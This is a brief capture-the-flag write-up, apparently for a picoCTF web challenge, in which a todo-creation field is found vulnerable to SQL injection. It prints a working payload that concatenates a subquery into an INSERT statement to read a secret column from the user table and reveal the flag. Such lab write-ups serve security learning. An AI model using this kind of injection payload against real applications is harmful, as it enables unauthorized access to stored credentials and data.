 

1. Register a new user and sign in, now we are allowed to create a todo, list todos and list employee.
2. In the todo creation page we have an input box to some text.
3. Try to create a todo. It result in internal error with ``'``, but ``''`` works.
4. There may be tables ``todo``, ``user`` in databases.

The todo creation is to insert a record into the ``todo`` table, the SQL would be like ``INSERT INTO todo VALUES (userid, 'content')``.

Tried out the following line

```
'||(select secret from user where secret like 'pico%' limit 1)||'
```

The insert SQL becomes

```
INSERT INTO todos VALUES (userid, ''||(select secret from user where secret like 'pico%' limit 1)||''
```

Now go to ``Your Todos``, the flag is displayed.

